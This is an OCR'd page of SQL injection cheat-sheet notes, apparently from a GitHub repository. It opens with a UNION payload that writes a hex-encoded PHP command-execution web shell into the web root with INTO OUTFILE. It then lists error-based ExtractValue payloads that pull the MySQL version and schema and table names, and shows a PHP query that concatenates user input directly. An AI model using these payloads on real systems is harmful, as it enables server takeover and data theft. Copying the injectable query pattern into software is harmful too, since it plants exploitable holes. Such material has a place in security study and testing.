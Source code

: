 ```
http://127.0.0.1/search.php?search=tmgm'UNION+SELECT+AL
L+1,2,0x3c3f7068702073797374656d285b27636d64275d293b203
f3e,4+into+outfile+'/var/www/html/shell.php'--+
```
## Error based SQL injection 

he `Extrac-tValue()` function in MySQL is designed to generate an error when it fails to
parse the XML data provided to it. T

o ensure that the ExtractValue() function always triggers an error, we
will pass a character such as 0x7E, which is equivalent to the symbol (~).
This will be treated as malformed input, causing the database to generate a
verbose error message.

_Note: This technique using the ExtractValue() function in SQL injection
does not require the target database to be an XML database or to store data
in XML format.

**Extracting server version**

```
'1 extractvalue(1, CONCAT(0x7e, (SELECT version()),
0x7e)); --
```
**Extracting Table Names**

```
'1 AND extractvalue(rand(), concat(0x7e, (SELECT concat
(0x7e, schema_name) FROM information_schema.schemata
LIMIT 0, 1)))--
```

**Extracting Specific Table Name from Information_schema**

```
'1 AND extractvalue(rand(),concat(0x3a,(SELECT concat
(0x7e,TABLE_NAME) FROM information_schema.TABLES WHERE
TABLE_NAME="users" LIMIT 0,1)))--
```

<font color=red>Note: It is important to note that this technique is effective only on MySQL
version 5.1 or later. Moreover, incorporating the LIMIT function enables the
extraction of specific data segments from the underlying database, as it helps
control the amount of data returned by a query.</font>


**Prefix and suffix**
sometimes the vulnerable code could be like this:

```
$query = "SELECT * FROM users WHERE id = ((' ". $_
GET["id"]. "')) LIMIT 0,1";
```
so if you add the regular order by 1 -- it returns error 
so we need to scape the `(('` by adding the `'))`

